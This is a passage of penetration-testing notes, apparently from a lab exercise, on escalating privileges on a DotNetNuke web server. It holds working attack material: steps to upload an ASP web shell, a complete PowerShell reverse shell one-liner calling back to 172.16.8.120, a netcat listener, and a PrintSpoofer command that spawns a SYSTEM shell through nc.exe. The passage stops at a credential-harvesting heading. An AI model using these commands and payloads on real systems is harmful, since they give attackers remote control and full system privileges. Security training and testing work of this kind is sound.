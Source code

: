 ## 🔺 Privilege Escalation Techniques

### 🖥️ Web Shell Deployment
```bash
# ASP web shell upload
1. Download newcmdasp.asp from GitHub
2. Upload via DNN File Management (/admin/file-management)
3. Access web shell via uploaded file URL
4. Test command execution: whoami

# Result: iis apppool\dotnetnukeapppool
# Privileges: SeImpersonate (exploitable)
```

### 🚀 PowerShell Reverse Shell
```powershell
# Reverse shell payload (from web shell):
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('172.16.8.120',9999);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte =([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"

# Listener setup (on dmz01):
nc -nvlp 9999
# Result: Interactive PowerShell session
```

### 🎯 PrintSpoofer Exploitation
```bash
# Prerequisites:
1. Upload nc.exe and PrintSpoofer64.exe via DNN
2. Verify SeImpersonate privilege
3. Setup listener on dmz01

# PrintSpoofer execution:
c:\DotNetNuke\Portals\0\PrintSpoofer64.exe -c "c:\DotNetNuke\Portals\0\nc.exe 172.16.8.120 443 -e cmd"

# Expected privileges:
[+] Found privilege: SeImpersonatePrivilege
[+] Named pipe listening...
[+] CreateProcessAsUser() OK

# Result: NT AUTHORITY\SYSTEM shell
```

## 💾 Credential Harvesting
